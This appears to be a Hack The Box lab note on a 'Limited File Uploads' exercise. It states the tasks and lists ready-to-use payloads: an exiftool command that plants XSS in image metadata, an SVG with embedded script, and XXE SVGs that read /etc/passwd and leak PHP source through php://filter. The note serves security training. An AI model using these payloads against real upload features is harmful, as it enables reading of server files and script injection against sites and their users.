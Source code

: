 # Limited File Uploads

- The above exercise contains an upload functionality that should be secure against arbitrary file uploads.
 Try to exploit it using one of the attacks shown in this section to read "/flag.txt"

  `Hint`: Use an attack that can read files, and don't forget to check the page source!
- Try to read the source code of 'upload.php' to identify the uploads directory, and use its name as the answer. (write it exactly as found in the source, without quotes)
  
  `Hint`: Use a different payload to read source code.
---
## Possible Attacks

- `XSS` via comment injection:
  ```bash
  exiftool -Comment=' "><img src=1 onerror=alert(window.origin)>' HTB.jpg
  ```
- `XSS` via HTB.svg:
  ```xml
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
  <svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
      <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
      <script type="text/javascript">alert(window.origin);</script>
  </svg>
  ```
- `XXE` via `.svg` file:
  ```xml
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
  <svg>&xxe;</svg>
  ```
- `XXE` via `.svg` file with `PHP Wrappers`:
  ```xml
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
  <svg>&xxe;</svg>
  ```
